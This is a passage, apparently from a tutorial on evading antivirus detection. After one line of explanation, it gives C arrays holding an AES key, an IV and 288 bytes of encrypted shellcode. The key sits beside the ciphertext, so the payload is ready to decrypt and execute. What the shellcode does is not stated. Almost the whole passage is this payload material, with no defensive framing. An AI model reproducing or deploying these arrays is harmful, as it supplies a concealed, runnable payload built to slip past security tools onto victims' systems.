 The result of this code is the encrypted shellcode, the key and the IV used to encrypt : 

```c
unsigned char pKey[] = {
        0xA9, 0x3A, 0x39, 0x5B, 0x07, 0x7C, 0xA3, 0xC7, 0x04, 0x04, 0xCF, 0x39, 0x07, 0x2F, 0xF1, 0x29,
        0x78, 0x54, 0x57, 0xB8, 0xC8, 0xB2, 0x94, 0x40, 0xB2, 0xA6, 0xDD, 0x30, 0xC1, 0x22, 0xB3, 0x17
};

unsigned char pIv[] = {
        0x81, 0x99, 0x14, 0xCF, 0xCB, 0x3B, 0xEF, 0x3C, 0xC9, 0xB3, 0x74, 0x25, 0xE9, 0x06, 0xA5, 0x50
};

byte shellcode[288] = {
        0x2A, 0x44, 0xCE, 0x0D, 0x77, 0x59, 0x04, 0x9F, 0x78, 0xFB, 0x31, 0xF7, 0xB1, 0x7D, 0x5D, 0x19,
        0xB7, 0x63, 0xF5, 0x5E, 0xEF, 0xD7, 0x18, 0x05, 0xC0, 0x75, 0xB2, 0x08, 0xD6, 0xD6, 0x5A, 0x5B,
        0xC8, 0xC2, 0x3A, 0xFA, 0x56, 0x31, 0xF6, 0x28, 0x94, 0x14, 0x2F, 0x8A, 0x55, 0x39, 0x83, 0x7C,
        0x3E, 0xF5, 0x54, 0x4E, 0x69, 0xFC, 0x28, 0x75, 0xD9, 0xC2, 0x65, 0x08, 0x6B, 0xF0, 0x36, 0x56,
        0x10, 0x4B, 0xF0, 0x7E, 0x0E, 0xFB, 0x55, 0xC7, 0xD6, 0x25, 0xE4, 0xBC, 0xDE, 0x1E, 0x4C, 0x1B,
        0x40, 0xD4, 0xFB, 0x3B, 0x69, 0x56, 0x13, 0x38, 0x29, 0xC6, 0xB2, 0x88, 0xEF, 0x72, 0x1F, 0xD7,
        0x03, 0xB9, 0x37, 0x80, 0xCB, 0xEE, 0xC3, 0xC1, 0xAF, 0x82, 0x63, 0x4C, 0xB6, 0x01, 0xC0, 0x5C,
        0xDA, 0x33, 0xD3, 0x14, 0x1A, 0xB0, 0xB2, 0x99, 0xCB, 0x45, 0x51, 0xE9, 0x19, 0x41, 0xCC, 0x66,
        0x8E, 0x78, 0xFC, 0x08, 0x94, 0xCF, 0x1D, 0xEE, 0x23, 0x8F, 0x1A, 0x0F, 0x47, 0x23, 0xFF, 0x06,
        0x24, 0x6B, 0xFD, 0xE4, 0xA3, 0x69, 0x37, 0xC4, 0xBD, 0x0B, 0x9F, 0x91, 0xB8, 0xA9, 0x29, 0x92,
        0xB1, 0x84, 0xDB, 0xF1, 0xB1, 0xE1, 0xED, 0xE0, 0xD2, 0x3A, 0xDB, 0x47, 0x58, 0x19, 0xCF, 0x03,
        0xAF, 0xBF, 0xCC, 0x30, 0x36, 0xA5, 0x9A, 0x36, 0x4B, 0x66, 0x80, 0x2D, 0x79, 0x77, 0x3F, 0xF1,
        0x4D, 0x22, 0x20, 0x6A, 0xB2, 0x56, 0xE3, 0xC9, 0xFF, 0xE7, 0xB1, 0x91, 0x96, 0x8A, 0x5F, 0xED,
        0xF4, 0x50, 0xB2, 0xBD, 0xBF, 0xA6, 0x7A, 0xBA, 0x8E, 0xE7, 0x6A, 0x36, 0xCE, 0x99, 0x91, 0x78,
        0xB7, 0xFE, 0xE5, 0xF2, 0xAB, 0x6C, 0x72, 0xB7, 0x8B, 0xD1, 0xFB, 0xC8, 0x52, 0xF8, 0xA8, 0xA4,
        0xB9, 0xEB, 0x44, 0xBE, 0x78, 0x38, 0x60, 0x74, 0xA4, 0x1C, 0xF5, 0xAE, 0xFF, 0x2A, 0x98, 0x92,
        0x5A, 0x4D, 0x6F, 0xE5, 0xC2, 0xA0, 0x96, 0x3A, 0x8B, 0xAE, 0x63, 0xBD, 0xD1, 0xDF, 0xF2, 0x5F,
        0xF1, 0x96, 0x05, 0xB9, 0xBE, 0x59, 0x1B, 0x8C, 0xB6, 0x10, 0xC2, 0xA7, 0xA4, 0xDC, 0x5F, 0x58
};
```
